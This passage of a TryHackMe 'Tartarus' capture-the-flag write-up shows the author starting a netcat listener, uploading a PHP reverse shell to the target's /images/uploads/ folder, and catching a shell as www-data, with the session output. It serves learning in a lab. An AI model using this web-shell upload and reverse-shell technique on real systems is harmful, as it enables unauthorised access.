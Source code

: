 Now I start my netcat listener ready for my shell (hopefully).

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 1234
listening on [any] 1234 ...
```

![uploaded](/assets/images/tartarus/uploaded.png)

File uploaded.

![shell](/assets/images/tartarus/shell.png)

As expected the shell.php script was uploaded to /images/uploads/

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.30.144] 52738
Linux ubuntu-xenial 4.4.0-184-generic #214-Ubuntu SMP Thu Jun 4 10:14:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:18:28 up  1:10,  0 users,  load average: 0.10, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Now we have a shell I will go hunting for the user flag.
